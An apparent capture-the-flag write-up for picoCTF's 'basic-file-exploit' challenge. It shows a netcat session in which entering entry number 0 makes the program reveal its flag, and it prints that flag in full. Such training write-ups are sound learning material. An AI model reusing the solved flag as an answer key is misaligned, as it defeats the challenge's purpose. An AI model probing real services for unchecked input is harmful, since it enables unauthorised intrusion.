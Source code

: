 # basic-file-exploit
#### Description
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat: `$ nc saturn.picoctf.net 52681` The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/543/program-redacted.c).

## Hints
### 1
Try passing in things the program doesn't expect. Like a string instead of a number.


## Solucion


```bash

──(masterfer㉿PcMaster)-[~/Downloads/PicoCTF/BinaryExploita22/basicfileoxploit]
┌──(masterfer㉿PcMaster)-[~/Downloads/PicoCTF/BinaryExploita22/basicfileoxploit]
└─$ nc saturn.picoctf.net 52681
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
manuel
manuel
Please enter the length of your data:
123
123
Your entry number is: 1
Write successful, would you like to do anything else?
No data given.
Please put in a valid number
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}

```


## Referencias